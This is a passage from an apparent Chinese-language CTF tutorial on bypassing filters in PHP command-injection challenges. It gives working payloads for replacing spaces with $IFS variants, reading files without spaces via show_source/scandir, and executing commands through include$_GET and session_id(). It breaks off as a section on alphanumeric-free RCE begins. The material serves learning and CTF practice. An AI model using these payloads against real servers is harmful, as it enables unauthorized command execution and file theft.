     ?c=print_r(<code>tac%20f*</code>);

此外，还可以代替空格的有：

    $IFS$9（使用时要加转义符号）、${IFS}、$IFS%09、<、<> 
    // 这些都是在linux shell下可以达到空格的效果
    // $IFS在Linux中默认是空格、分隔的字符

等等，看情况使用。

无空格方式直接读取文件还有以下方式：

    highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
    // next是当前指针的下一个，也就是第二个。
    // current是当前指针的这个元素。即数组的第一个元素。
    // end最后一个元素
    // 这里这样用是因为他是倒数第二个。

或

    show_source(next(array_reverse(scandir(pos(localeconv())))));

本质上是使用php本身的函数来直接读取文件。

### 括号绕过

比如可以使用include()函数。

include()函数的作用是，包含并运行指定文件。

因此可以包含一个文件流即可读取到文件。

include()和require()函数类似，但include()包含的文件不存在时，抛出警告，而require()会产生错误。

include可以不需要空格和任何括号。

payload:

    ?c=include$_GET[1]?>&1=system("cat flag");

### session绕过

在浏览器中修改PHPSESSID的值，然后读取此值，并执行。

以edge浏览器为例，应用程序>Cookie>右键添加一项，写入PHPSESSID的值。

![image-20220815211413950](202209091333974.png)

直接读取即可, payload:

    c=session_start();system(session_id());

使用范围：

PHP 5.5-7.1.9之间可以使用。

PHP 5.5以下及PHP7.1以上时，session_id只能是0-9，a-z，A-Z中的字符。

### 无字母数字RCE（php7

用不可见字符，采用异或、或、取反的方式构造出payload。
